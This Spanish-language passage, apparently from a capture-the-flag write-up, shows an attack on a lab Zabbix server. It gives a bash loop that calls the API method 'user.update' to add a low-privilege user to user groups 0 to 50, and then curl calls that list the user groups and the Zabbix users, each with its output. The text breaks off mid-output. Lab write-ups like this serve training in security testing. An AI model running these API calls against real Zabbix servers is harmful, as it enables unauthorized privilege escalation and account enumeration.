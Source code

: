 Por lo cual, podemos hacer un one-liner e intentar agregarnos a todos los grupos del `0` al `50` y vemos que tenemos suerte y nos agregamos en algunos grupos.
```console
for i in {0..50}; do response=$(curl -s -X POST --url http://10.129.120.77/zabbix/api_jsonrpc.php --header 'Content-Type: application/json-rpc' --data "{\"jsonrpc\": \"2.0\", \"method\":\"user.update\", \"params\":{\"usrgrps\": [{\"usrgrpid\": $i}], \"userid\": \"3\"},\"auth\":\"98d789981ffe40fca9fdce196750adc56443aaeed9d3e65c95c92162e7bccdc0\", \"id\": 3}"); [[ $response != *\"error\"* ]] && echo "Group ID: $i"; done

Group ID: 7
Group ID: 8
Group ID: 11
Group ID: 13
```

Ahora por ejemplo, si que tenemos permiso para ver los grupos existentes.
```console
curl -s -X POST --url http://10.129.120.77/zabbix/api_jsonrpc.php --header 'Content-Type: application/json-rpc' --data '{"jsonrpc": "2.0", "method":"usergroup.get", "params": {"output": "extend", "status": 0}, "auth":"98d789981ffe40fca9fdce196750adc56443aaeed9d3e65c95c92162e7bccdc0", "id": 1}' | jq
{
  "jsonrpc": "2.0",
  "result": [
    {
      "usrgrpid": "13",
      "name": "Internal",
      "gui_access": "1",
      "users_status": "0",
      "debug_mode": "0",
      "userdirectoryid": "0",
      "mfa_status": "0",
      "mfaid": "0"
    }
  ],
  "id": 1
}
```

Y podemos incluso ver los usuarios del Zabbix.
```console
curl -s -X POST --url http://10.129.120.77/zabbix/api_jsonrpc.php --header 'Content-Type: application/json-rpc' --data '{"jsonrpc": "2.0", "method":"user.get", "params":{"output": "extend"},"auth":"98d789981ffe40fca9fdce196750adc56443aaeed9d3e65c95c92162e7bccdc0", "id": 1}' | jq
{
  "jsonrpc": "2.0",
  "result": [
    {
      "userid": "1",
      "username": "Admin",
      "name": "Zabbix",
      "surname": "Administrator",
      "url": "",
      "autologin": "1",
      "autologout": "0",
      "lang": "default",
      "refresh": "30s",
      "theme": "default",
      "attempt_failed": "0",
      "attempt_ip": "",
      "attempt_clock": "0",
      "rows_per_page": "50",
      "timezone": "default",
      "roleid": "3",
      "userdirectoryid": "0",
      "ts_provisioned": "0"
```